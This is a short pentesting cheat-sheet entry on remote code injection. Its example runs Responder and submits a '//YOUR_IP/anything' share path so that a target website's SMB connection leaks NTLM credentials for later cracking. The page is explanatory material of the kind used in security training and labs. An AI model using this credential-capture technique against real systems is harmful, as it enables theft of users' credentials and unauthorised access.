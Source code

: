 # Remote Code Injection (RCI)

<div class="row row-cols-lg-2"><div>

A [remote code injection](https://owasp.org/www-community/attacks/Code_Injection) (RCI) is an attack in which a hacker inject malicious code inside an application.
</div><div>

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

First set up [responder](https://github.com/lgandx/Responder) to catch authentication requests:

```ps
$ sudo responder -i IP -I tun0
```

Submit: `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.
</div></div>